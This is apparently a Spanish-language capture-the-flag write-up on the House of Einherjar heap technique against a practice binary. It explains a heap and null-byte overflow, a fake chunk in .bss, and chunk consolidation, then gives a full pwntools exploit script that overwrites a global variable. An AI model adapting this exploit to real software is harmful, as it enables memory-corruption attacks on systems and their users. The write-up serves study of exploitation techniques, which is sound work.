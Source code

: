 # House of Einherjar

Si existe la posibilidad de obtener una shell en este reto la desconozco. El objetivo de este reto fue sobreescribir la variable global `target`.

Nos dan la direccion del heap y podemos provocar un heap overflow reservando chunks no alineados a 16 bits. Por ejemplo reservar 0x88 bytes hace que `malloc` lo alinee y acabe reservando un chunk de `0x90`, `0x10` de metadatos, el resto para los datos introducidos.

Tambien cuando editamos el contenido de un chunk el programa añade '\0' al final, provocando un desbordamiento extra de un NULL BYTE.

Usando la tecnica homonima, estos son los pasos para reservar un chunk en `.bss` y sobreescribir `target`:
1. Creamos un chunk falso en la variable `user`, con `prev_size`, `size` = 0 y con `fd`, `bk` = 0x602010 (direccion de `user`).
2. Creamos dos chunks: `A`, del tamaño permitido, y `B`, de tamaño `0xf8`.
3. Editamos A y con el heap overflow sobreescribimos `B->prev_size` con la distancia entre `B` y el chunk falso de `user`. De paso el NULL BYTE sobreescribe el bit `PREV_INUSE` en `B->size`.
4. Liberamos B, provocando que se consolide con el chunk falso.
```
  /* La verificacion de integridad  chunksize (p) != prev_size (next_chunk (p))) es esquivada porque:
   chunksize(p) = 0
   next_chunk(p) = p + chunksize(p) = p
   prev_size(next_chunk(p)) = prev_size(p) = 0
 */
```
5. Reservamos un chunk `C` que acaba en la seccion `.bss`, en la direccion de `user`.
6. Sobreescribimos target con el overflow.

## Exploit

```py
from pwn import *

r = process("./house_of_einherjar")

def malloc(size):
    r.sendlineafter(b">",b"1")
    r.sendlineafter(b"size:",str(size).encode())
def free(idx):
    r.sendlineafter(b">",b"2")
    r.sendlineafter(b"index:",str(idx).encode())
def edit(idx,data):
    r.sendlineafter(b">",b"3")
    r.sendlineafter(b"index:",str(idx).encode())
    r.sendafter(b"data:",data)

# Create fake chunk A
fake_chunk = p64(0) + p64(0) + p64(0x602010)*2
r.sendafter(b"username:",fake_chunk)

# chunksize (p) != prev_size (next_chunk (p)))

# Leak heap address
r.recvuntil(b"@ ")
heap = int(r.recv(10),16)

# Alloc B and C
# malloc alignment allocs a 0x90 chunk with 0x10 bytes for metadata
# and only 0x80 bytes for data, we can overflow C->prev_size
malloc(0x88)
malloc(0xf8)

fake_size = (heap + 0x90) - 0x602010

# Overflow C with B
# It adds a null byte to C->size and unset it's PREV_INUSE bit
edit(0,b"A"*0x80 + p64(fake_size))

# Call unlink_chunk, consolidating A and C
free(1)

# av->top = 0x602010 (user)

# Allocate a new chunk and overwrite target
malloc(0x100)
edit(2,p64(0) * 2 + b"_s1s1fo_")

r.interactive()
```

